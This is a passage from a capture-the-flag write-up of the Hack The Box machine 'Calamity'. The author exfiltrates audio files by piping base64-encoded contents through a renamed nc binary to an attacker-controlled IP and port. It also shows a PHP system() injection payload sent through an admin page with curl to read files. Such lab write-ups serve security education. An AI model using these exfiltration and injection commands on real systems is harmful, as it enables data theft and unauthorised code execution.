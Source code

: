 Also in xalvas’ home directory is a file called `recov.wav`. Recov sounds like recovery, so it’s worth taking a look at (also, steg was *way* more common in early HTB days). There are two move audio files in the `alarmclocks` folder:

```

calamity> ls -l /home/xalvas/alarm*
total 5708
-rw-r--r-- 1 root root 3196668 Jun 27  2017 rick.wav
-rw-r--r-- 1 root root 2645839 Jun 27  2017 xouzouris.mp3

```

I’ll use a renamed copy of `nc` to exfil:

```

calamity> cp /bin/nc /dev/shm/0xdfcat
calamity> cat /home/xalvas/recov.wav | base64 | /dev/shm/0xdfcat 10.10.14.24 443

```

Back at Kali:

```

root@kali# nc -lnvp 443 | base64 -d > recov.wav
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.27.
Ncat: Connection from 10.10.10.27:47346.

```

I did the same for the other two files:

```

calamity> cat /home/xalvas/alarmclocks/rick.wav | base64 | /dev/shm/0xdfcat 10.10.14.24 443
calamity> cat /home/xalvas/alarmclocks/xouzouris.mp3 | base64 | /dev/shm/0xdfcat 10.10.14.24 443

```

If I wanted to do that without renaming `nc`, I could also just do it through `curl` having PHP print the contents of the file:

```

root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode "html=<?php system(\"cat /home/xalvas/recov.wav\"); ?>" --cookie adminpowa=noonecares | sed -e '1,/<\/body><\/html>/ d' > recov-curl.wav

root@kali# md5sum recov*
a2c5f6ad4eee01f856348ec1e2972768  recov-curl.wav
a2c5f6ad4eee01f856348ec1e2972768  recov.wav

```
